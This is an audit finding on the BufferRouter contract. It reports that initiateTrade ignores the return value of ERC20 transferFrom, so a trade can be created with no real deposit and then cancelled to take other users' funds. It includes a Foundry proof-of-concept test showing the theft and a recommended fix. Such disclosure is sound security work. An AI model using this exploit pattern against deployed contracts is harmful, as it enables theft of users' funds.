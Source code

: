 # ERC20 `transferFrom` isn't validated in function `initiateTrade` of `BufferRouter` contract

## Summary

The `initiateTrade` function present in the `BufferRouter` contract uses `ERC.transferFrom(...)` to transfer funds from the user to the contract, but fails to verify the result of the call, which may lead an attacker to steal funds in case of non-standard ERC20 implementations.

## Vulnerability Detail

When a new trade is initiated in the `BufferRouter` contract, the `initiateTrade` will pull funds from the caller using ERC20 `transferFrom`. This happens in line 86:

https://github.com/sherlock-audit/2022-11-buffer-romeroadrian/blob/main/contracts/contracts/core/BufferRouter.sol#L86

```solidity
IERC20(optionsContract.tokenX()).transferFrom(
    msg.sender,
    address(this),
    totalFee
);
```

In case of a non-standard ERC20 that signals success using the boolean return value, the current implementation will fail to correctly validate the operation, and let the function continue its execution assuming the tokens were correctly transferred. 

## Impact

In case the token follows a non-standard ERC20 implementation, this issue may allow an attacker to create a trade without actually transferring any tokens.

Since the return value of the call to `transferFrom` isn't checked, it is assumed that tokens were correctly transferred and the call to `initiateTrade` will succeed and create the position.

The attacker can then proceed to cancel the queued trade, which will cancel the trade and initiate the refund process. Here the router will transfer funds from its balance back to the attacker. This way the attacker can effectively steal tokens from the contract.

Note that this would require of another user making a trade with a "real" transfer of funds, so that tokens are available at the router. However, this isn't difficult to pull, since the attacker can monitor the contract for deposits from other users and immediately initiate a trade for the same amount and cancel it (this can even be done in a single transaction using an attacker contract).

## Code Snippet

In the following test Bob doesn't have any tokens, but he is able to create a trade. After Alice has created her position and transferred her tokens to the router contract, Bob is able to cancel the trade and steal the tokens.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.4;

import "forge-std/Test.sol";
import "../src/core/BufferRouter.sol";
import "../src/core/BufferBinaryOptions.sol";
import "../src/core/BufferBinaryPool.sol";
import "../src/core/OptionsConfig.sol";
import "../src/core/ReferralStorage.sol";
import "../src/interfaces/Interfaces.sol";
import "../src/tokens/USDC.sol";
import "../src/tokens/BadERC20.sol";
import "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";

contract AuditPoolTest is Test {
    bytes32 constant ROUTER_ROLE = keccak256("ROUTER_ROLE");
    bytes32 constant OPTION_ISSUER_ROLE = keccak256("OPTION_ISSUER_ROLE");

    event OpenTrade(address indexed account, uint256 queueId, uint256 optionId);

    address owner;
    uint256 publisherPrivateKey;
    address publisher;
    address feeRecipient;
    address keeper;
    address alice;
    address bob;

    function setUp() public {
        owner = makeAddr("owner");
        publisherPrivateKey = 0x1234;
        publisher = vm.addr(publisherPrivateKey);
        feeRecipient = makeAddr("feeRecipient");
        keeper = makeAddr("keeper");
        alice = makeAddr("alice");
        bob = makeAddr("bob");
    }

    function test_BuffeRouter_initiateTrade_FailedTransfer() public {
        // Setup
        vm.startPrank(owner);

        BadERC20 token = new BadERC20();
        BufferBinaryPool pool = new BufferBinaryPool(token);
        OptionsConfig config = new OptionsConfig(pool);
        ReferralStorage referral = new ReferralStorage();
        BufferBinaryOptions binary = new BufferBinaryOptions(
            token,
            pool,
            config,
            referral,
            IBufferBinaryOptions.AssetCategory.Crypto,
            "ETH/BAD"
        );
        BufferRouter router = new BufferRouter(publisher);

        router.setContractRegistry(address(binary), true);
        router.setKeeper(keeper, true);

        vm.stopPrank();

        uint256 amount = 1e6;

        // Alice has 1e6 tokens, bob none
        vm.prank(owner);
        token.transfer(alice, amount);

        // Alice makes a trade with a real deposit
        vm.prank(alice);
        token.approve(address(router), type(uint256).max);
        vm.prank(alice);
        router.initiateTrade(
            amount, // uint256 totalFee,
            1 hours, // uint256 period,
            true, // bool isAbove,
            address(binary), // address targetContract,
            1, // uint256 expectedStrike,
            5e2,// uint256 slippage,
            true, // bool allowPartialFill,
            "", // string memory referralCode,
            0 // uint256 traderNFTId
        );

        // Tokens are in router
        assertEq(token.balanceOf(alice), 0);
        assertEq(token.balanceOf(address(router)), amount);

        // Bob makes a fake deposit, he doesn't have any tokens. This still succeeds because the return condition of the ERC20 transfer isn't checked
        vm.prank(bob);
        uint256 queueId = router.initiateTrade(
            amount, // uint256 totalFee,
            1 hours, // uint256 period,
            true, // bool isAbove,
            address(binary), // address targetContract,
            1, // uint256 expectedStrike,
            5e2,// uint256 slippage,
            true, // bool allowPartialFill,
            "", // string memory referralCode,
            0 // uint256 traderNFTId
        );

        // Now bob cancels his trade before its processed, this will return the tokens (from alice) that were already stored in the router
        vm.prank(bob);
        router.cancelQueuedTrade(queueId);

        // Bob stole the tokens
        assertEq(token.balanceOf(alice), 0);
        assertEq(token.balanceOf(bob), amount);
        assertEq(token.balanceOf(address(router)), 0);
    }
}
```

## Tool used

None

## Recommendation

Verify the result of the call is true, as it is correclty done in other parts of the code (BufferBinaryPool for example).

```solidity
bool success = IERC20(optionsContract.tokenX()).transferFrom(
    msg.sender,
    address(this),
    totalFee
);
require(success);
```
